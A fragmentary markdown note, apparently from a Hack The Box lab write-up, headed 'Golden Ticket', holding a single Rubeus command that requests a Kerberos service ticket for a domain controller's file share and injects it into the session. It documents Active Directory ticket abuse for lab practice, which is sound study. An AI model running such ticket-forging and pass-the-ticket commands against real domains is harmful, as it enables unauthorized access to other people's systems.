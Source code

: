 ## Golden Ticket
[[impacket]]
```
./Rubeus.exe asktgs /ticket:ticket.kirbi /service:CIFS/DC01.GHOST.HTB /dc:GHOST.HTB /ptt /outfile:ticket.kirbi
```